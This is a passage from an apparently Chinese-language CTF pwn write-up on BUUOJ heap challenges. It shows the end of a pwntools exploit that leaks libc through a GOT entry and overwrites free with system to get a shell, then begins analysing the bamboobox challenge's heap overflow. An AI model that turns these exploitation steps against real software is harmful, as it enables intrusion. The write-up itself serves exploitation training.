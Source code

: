```
payload = 'a' * 0x40 + p64(8) + p64(free_got)
add(0x70, payload) # 1
display(2)

io.recvuntil('Content : ')
free_addr = u64(io.recvuntil('Done')[:-5].ljust(8,'\x00'))
print(hex(free_addr))

libc = LibcSearcher('free', free_addr)
libc_base = free_addr - libc.dump('free')
system = libc_base + libc.dump('system')
print(hex(system))

edit(2, p64(system))
delete(3)

io.interactive()
```



## 0x08 0ctf_2017_babyheap

同[babyheap_0ctf_2017](https://so4ms.top/index.php/2021/04/06/pwn%e5%ad%a6%e4%b9%a0-buuoj%ef%bc%88heap%ef%bc%89/#toc-head-1)



## 0x09 hitcontraining_bamboobox

还是一道菜单堆题，先来看看申请chunk，这一块代码，用了itemlist来存储申请的chunk的大小和chunk的content地址。

```
for ( i = 0; i &lt;= 99; ++i )
    `{`
      if ( !itemlist[2 * i + 1] )
      `{`
        LODWORD(itemlist[2 * i]) = v2;
        itemlist[2 * i + 1] = (char *)malloc(v2);
        printf("Please enter the name of item:");
        itemlist[2 * i + 1][(int)read(0, itemlist[2 * i + 1], v2)] = 0;
        ++num;
        return 0LL;
      `}`
    `}`
```

然后是修改chunk内容的代码，这里没有对我们的输入大小范围进行限制，存在溢出。

```
if ( num )
  `{`
    printf("Please enter the index of item:");
    read(0, buf, 8uLL);
    v1 = atoi(buf);
    if ( itemlist[2 * v1 + 1] )
    `{`
      printf("Please enter the length of item name:");
      read(0, nptr, 8uLL);
      v2 = atoi(nptr);
      printf("Please enter the new name of the item:");
      itemlist[2 * v1 + 1][(int)read(0, itemlist[2 * v1 + 1], v2)] = 0;
    `}`
    else
    `{`
      puts("invaild index");
```